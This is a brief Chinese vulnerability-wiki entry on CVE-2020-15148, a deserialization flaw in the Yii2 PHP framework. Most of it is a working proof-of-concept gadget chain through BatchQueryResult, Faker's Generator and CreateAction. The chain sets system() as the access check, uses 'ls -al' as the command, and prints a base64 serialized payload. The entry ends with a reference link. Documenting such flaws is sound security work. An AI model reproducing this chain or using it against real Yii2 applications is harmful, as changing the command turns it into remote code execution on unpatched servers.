 还是挺简单的一个漏洞

### poc

    namespace yii\rest{
        class CreateAction{
            public $checkAccess;
            public $id;

            public function __construct(){
                $this->checkAccess = 'system';
                $this->id = 'ls -al';
            }
        }
    }

    namespace Faker{
        use yii\rest\CreateAction;

        class Generator{
            protected $formatters;

            public function __construct(){
                $this->formatters['close'] = [new CreateAction, 'run'];
            }
        }
    }

    namespace yii\db{
        use Faker\Generator;

        class BatchQueryResult{
            private $_dataReader;

            public function __construct(){
                $this->_dataReader = new Generator;
            }
        }
    }
    namespace{
        echo base64_encode(serialize(new yii\db\BatchQueryResult));
    }
    ?>

![8.jpg](/Users/aresx/Documents/VulWiki/.resource/(CVE-2020-15148)Yii2框架反序列化漏洞/media/rId35.jpg)

参考链接
--------

> https://xz.aliyun.com/t/8307
